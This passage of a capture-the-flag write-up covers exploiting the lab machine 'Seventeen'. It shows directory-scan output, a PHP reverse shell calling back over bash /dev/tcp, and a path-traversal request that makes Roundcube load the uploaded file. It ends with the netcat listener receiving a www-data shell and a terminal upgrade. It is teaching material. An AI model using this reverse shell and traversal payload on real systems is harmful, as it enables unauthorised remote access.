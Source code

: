```
301      GET        9l       28w      376c http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers => http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers/
[####################] - 1m     59998/59998   0s      found:1       errors:1      
[####################] - 58s    29999/29999   511/s   http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/ 
[####################] - 56s    29999/29999   532/s   http://oldmanagement.seventeen.htb:8000/oldmanagement/files/31234/papers

```

#### Shell

Putting that all together, I’ll first upload a simple PHP reverse shell as `papers.php`:

```

<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"); ?>

```

This will put it at `[somepath]/oldmanagement/files/31234/papers.php`. I can take a guess that `[somepath]` is either `/var/www` or maybe `/var/www/html` (it’s the latter). So a payload like this works:

```

_plugins_qwerty=../../../../../../../../../var/www/html/oldmanagement/files/31234/papers&_step=2&_product_name=Seventeen+Webmail&submit=UPDATE+CONFIG

```

On sending, it reports that it saved the config:

[![image-20220504155844870](https://0xdfimages.gitlab.io/img/image-20220504155844870.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20220504155844870.png)

Now on loading any Roundcube page, it generates a reverse shell:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.10.82 50750
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@1a447de8638b:/var/www/html/mastermailer$

```

I’ll do a [shell upgrade](https://youtu.be/DqE6DxqJg8Q):

```

www-data@1a447de8638b:/var/www/html/mastermailer$ script /dev/null -c bash
Script started, file is /dev/null
www-data@1a447de8638b:/var/www/html/mastermailer$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@1a447de8638b:/var/www/html/mastermailer$

```
